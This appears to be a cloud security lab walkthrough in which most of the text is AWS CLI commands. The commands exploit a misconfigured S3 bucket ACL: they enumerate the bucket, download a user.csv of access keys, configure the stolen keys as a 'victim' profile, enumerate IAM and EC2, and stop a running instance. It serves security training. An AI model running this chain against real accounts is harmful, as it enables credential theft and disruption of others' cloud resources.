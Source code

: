 # ACL Authenticated group 


* Clone the repository 

```bash
git clone https://github.com/bvabhishek/misconfigured_acl.git
```
* Go to Directory 

```bash
 cd /misconfigured_acl
```

* Lets use the bucket_finder tool to check our target bucket exist or not

```bash
./bucket_finder.rb my_words
```

* Go to the target URL and check if there is any attack scenario

    * https://vallabh.s3-us-west-2.amazonaws.com/

* Let's make the s3 bucket name as gloabal variable as we need to use it again

```bash
export s3bucket=<bucketname>
```
```bash
echo $s3bucket
```

* Let's try enumerating the S3 bucket by listing the object

```bash
aws s3 ls s3://$s3bucket

```

* Now lets try accessing it though our AWS profile (your own)

* if you havent configured your profile follow the below steps

```bash
aws configure --profile #your_profile
```

* Now try listing thew objects

```bash
aws s3 ls s3://vallabh --profile your_name
```

* Fish around the bucket 

```bash
aws s3 ls s3://vallabh/etc/ --profile your_name
```

* Download the juicy file (Relative path to your present working directory)

```bash
aws s3 cp s3://vallabh/etc/user.csv /home/we45-abhi/seasides/bucket_finder/ --profile your_name
```
//use sync 

* cat the csv file 

* configure the access key id and secret access key as attacker profile 

```bash
aws configure --profile victim

```
* Now check if you can access if any S3 objects present by using aws cli

```bash
aws s3 ls --profile victim
```

// abhi add ec2 full and iam readonly 

* Check the user profile 

```bash
aws sts get-caller-identity --profile victim
```
* lets try to pull out any s3 files

```bash
aws s3 ls --profile victim
```

* Now lets check the user policies attached to the user if any, to figure out which all resources he might have

```bash
aws iam list-attached-user-policies --user-name victim --profile victim
```

* we came to know that he has ec2 access, now check if any running ec2 instance

* lets check if any running ec2 instance 

```bash

aws ec2 describe-instances --profile victim --region us-west-2
```

* lets export the instance id i-083b2833c663866d1

```bash
export iId=<instance id>
```
```bash
echo $iId
```

* Copy the Public IP address and paste in browser

```bash
aws ec2 describe-instances --instance-ids $iId --region us-west-2 --query 'Reservations[0].Instances[0].PublicIpAddress' --output text --profile victim

```
* Open new terminal 

* Lets stop the instance 

```bash
aws ec2 stop-instances --instance-id $iId --profile victim --region us-west-2

```

* To check where may be the misconfiguration 
```bash
aws s3api get-bucket-acl --bucket $s3bucket --profile victim
```

* Another misconfiguration is providing excess policy such as "IAMReadOnlyAccess"

```bash 
aws iam list-attached-user-policies --user-name victim --profile victim
```
